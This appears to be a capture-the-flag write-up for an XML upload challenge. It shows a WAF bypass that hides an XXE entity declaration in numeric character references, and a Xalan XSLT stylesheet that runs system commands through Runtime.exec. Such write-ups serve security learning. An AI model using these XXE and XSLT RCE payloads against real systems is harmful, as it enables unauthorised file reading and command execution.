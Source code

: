 There's an admin panel accessible form localhost only.
## Road to flag
Execute `/cat_flag`  -> RCE
### Misc
```
sudo docker build -t emplself .
sudo docker run -d -p 1337:1337 --name emplself emplself
```
## Code review
- After the upload the file gets validated
- If the file is valid it gets written on the disk at `/app/upload/inventory.xml`
- 
## Exploitation
1. Bypass WAF
We don't have the pattern, so we have to try some payload; we notice that the entity declared with `SYSTEM` or `PUBLIC` is denied, but if we set only a string, it works. Like this

```xml
<!ENTITY xxe "test">
```
The string in XML supports HTML entities, so we can write our payload in numerical HTML entities as `parameter entities` and recall it in the `DOCTYPE`
So a single payload:

```xml
<!ENTITY xxe SYSTEM "file:///tmp">
```
will be

```xml
<!ENTITY % a "&#60;&#33;&#69;&#78;&#84;&#73;&#84;&#89;&#32;&#120;&#120;&#101;&#32;&#83;&#89;&#83;&#84;&#69;&#77;&#32;&#34;&#102;&#105;&#108;&#101;&#58;&#47;&#47;&#47;&#116;&#109;&#112;&#34;&#62;"> %a;
```
So the XML parser decodes the numeric entities and, with `%a;` reparse it. So we have XXE

2. RCE
We need a malicious `XSLT` template; we can make a Google search and find some exploits, for example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
                xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:date="http://xml.apache.org/xalan/java/java.util.Date"
                xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
                xmlns:str="http://xml.apache.org/xalan/java/java.lang.String"
                exclude-result-prefixes="date">
    <xsl:output method="text"/>
    <xsl:template match="/">
        <xsl:variable name="cmd"><![CDATA[cat_flag]]></xsl:variable>
        <xsl:variable name="rtObj" select="rt:getRuntime()"/>
        <xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
        <xsl:variable name="efgh" select="jv:getInputStream($process)" xmlns:jv="http://xml.apache.org/xalan/java"/>
        <xsl:variable name="ijkl" select="isr:new($efgh)" xmlns:isr="http://xml.apache.org/xalan/java/java.io.InputStreamReader"/>
        <xsl:variable name="mnop" select="br:new($ijkl)" xmlns:br="http://xml.apache.org/xalan/java/java.io.BufferedReader"/>
        <xsl:value-of select="jv:readLine($mnop)" xmlns:jv="http://xml.apache.org/xalan/java"/>
        <xsl:value-of select="jv:readLine($mnop)" xmlns:jv="http://xml.apache.org/xalan/java"/>
    </xsl:template>
</xsl:stylesheet> 
```